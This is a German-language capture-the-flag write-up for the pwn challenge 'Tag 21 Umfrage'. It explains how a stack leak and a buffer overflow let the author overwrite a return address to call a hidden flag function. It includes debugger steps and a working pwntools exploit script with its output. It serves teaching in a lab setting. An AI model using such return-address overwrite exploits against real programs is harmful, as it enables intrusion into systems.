







# Tag 21 Umfrage



In dieser pwn Challenge habe ich einen Buffer Overflow genutzt, um einen pointer auf den Speicherort der return-Adresse zeigen zu lassen. Im nächsten Schritt habe ich die return-Adresse mit der Adresse der flag-Funktion überschrieben. Dadurch wurde die flag-Funktion ausgeführt und die flag ausgegeben.

## Analyse der Datei

Ich habe im Folgenden mit der Datei "main" gearbeitet. Hierbei handelt es sich um eine 64-Bit ELF Datei.

```
└─$ file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5e07ce6eca3a407ff947917157768341d88a4358, for GNU/Linux 3.2.0, not stripped
```

## Was passiert beim Ausführen?
Bei Ausführung des Programms wird zunächst ein Wert geleakt, dann werden zwei Eingaben entgegengenommen (solange der erste Input mit "ja" beginnt).

```
└─$ ./main         
0x7ffca4106ef8
/////////////////////////////////////////////////////////
// Advent-Survey                                       //
/////////////////////////////////////////////////////////
Würdest du erneut bei so einem CTF mitmachen (ja/nein)? ja
Welches Rating würdest du der Advenzeit geben (1-100)? 100

```

## Analyse mit ghidra

## main Funktion

In der main-Funktion wird zunächst die globale Variable "rating" auf dem heap initialisiert.
Anschließend wird die Funktion "ask" aufgerufen, die besonders interessant ist, da sie die Ausgabe erklärt.



## ask Funktion

Ich habe einige der Variablen umbenannt, um genauer zu sehen, wo sie verwendet werden und mich daran zu erinnern, wozu sie genutzt werden.



Zunächst wird ein Wert vom Stack geleakt. Da mir nicht genau klar war, was das genau für ein Wert ist und wozu ich ihn verwenden kann, habe ich mir den Wert in pwndbg genauer angeschaut.

Mit `disassemble ask` habe ich mir den Assembly-Code der ask-Funktion angeschaut.
Da ich bei der ersten Eingabe den buffer overflow nutzen möchte, um zu verändern, worauf pointer_input zeigt, habe ich hier einen breakpoint gesetzt, um mir den Stack und die Werte genau anschauen zu können.

Dies ist der Assembly-Code, um die erste Eingabe entgegenzunehmen.

Mit `break *0x4012b0` habe ich hier einen breakpoint gesetzt und mit `run` das Programm bis zu diesem Punkt laufen lassen.

Der geleakte Wert bei der Ausführung ist diesmal `0x7fffffffdde8`. 
Hier wird der Stack in pwndbg angezeigt:


Um zu überprüfen, dass main+41 wirklich die return-Adresse ist, schaue ich mir den Code der main-Funktion mit `disassemble main`  ebenfalls an.



Der geleakte Wert scheint also tatsächlich der Speicherbereich auf dem Stack zu sein, in dem die return-Adresse steht. Wenn dieser Speicherbereich überschrieben wird, springt das Programm nach Ende der ask-Funktion an die Adresse, mit der der Speicherbereich überschrieben wurde.

## flag Funktion

Bei der regulären Ausführung des Programms sehe ich nirgendwo die Möglichkeit, eine flag auszugeben oder eine shell zu starten. Also habe ich mir die weiteren Funktionen genauer angeschaut.

Dabei ist mir aufgefallen, dass eine Funktion "flag" existiert, die jedoch im normalen Programmablauf nicht aufgerufen wird. Das Ziel ist also, diese Funktion irgendwie aufzurufen.



Die Adresse der flag-Funktion lautet 0x40136c:

```
└─$ readelf -s main | grep flag  
	<snip>
    49: 000000000040136c   158 FUNC    GLOBAL DEFAULT   14 flag
```

Um die flag-Funktion aufrufen zu können, benötigen wir also einen Weg, um das Programm an die Stelle `0x40136c` springen zu lassen.


## Wie komme ich nun zur flag?

Wie bereits angedeutet, gibt es in der ask-Funktion die Möglichkeit eines buffer overflows.

Die ersten 4 Zeichen werden dabei der Variable "input_ja_nein" zugeordnet. Da der zweite Input nur abgefragt wird, wenn die eingelesene Zeichenkette mit "ja" beginnt, habe ich hier "jaja" gewählt, da ich 4 Zeichen brauche, um die Variable zu füllen und den buffer overflow zu starten.

Die Zeichen danach verändern, auf welchen Speicherbereich die Variable "pointer_input" zeigt. Hier ist das Ziel, sie auf den Speicherbereich der return-Adresse auf dem Stack zeigen zu lassen. Da der leak diesen Bereich auf dem Stack angibt, sollte "pointer_input" mit dem leak überschrieben werden.

Als zweiten Input wähle ich die Adresse der flag-Funktion `0x40136c`. Da der Format-Code `%ld` zum Einlesen hier lautet und somit ein long (also eine Ganzzahl) ist, habe ich die Adresse `0x40136c` in eine Ganzzahl umgerechnet: `4199276`.

Beim Verlassen der ask-Funktion  wird dann nicht an den "richtigen" Ort in der main-Funktion gesprungen, sondern an den Anfang der Flag-Funktion. Dadurch wird die flag ausgegeben.


## Python-Code

```python
from pwn import *

p = remote("challenge.fernuni-hacken.de",50740)

#Leak in erster Zeile einlesen und in first_line speichern
first_line = p.recvline()
#\n abschneiden
leak = first_line[:-1]
#in integer umrechnen
leakInt = int(leak,16)

#ersten Input berechnen und senden
payload = b'jaja'+p64(leakInt)
p.sendline(payload)

#zweiter Input: Addresse der flag-Funktion als integer
p.sendline(b'4199276')

p.interactive()
```

## flag

```
└─$ python3 solution.py 
[+] Opening connection to challenge.fernuni-hacken.de on port 50740: Done
[*] Switching to interactive mode
/////////////////////////////////////////////////////////
// Advent-Survey                                       //
/////////////////////////////////////////////////////////
Würdest du erneut bei so einem CTF mitmachen (ja/nein)? Welches Rating würdest du der Advenzeit geben (1-100)? flag{th4nk_y0u_for_your_p4rticipati0n}
```

Hier wird also die flag ausgegeben: `flag{th4nk_y0u_for_your_p4rticipati0n}`.

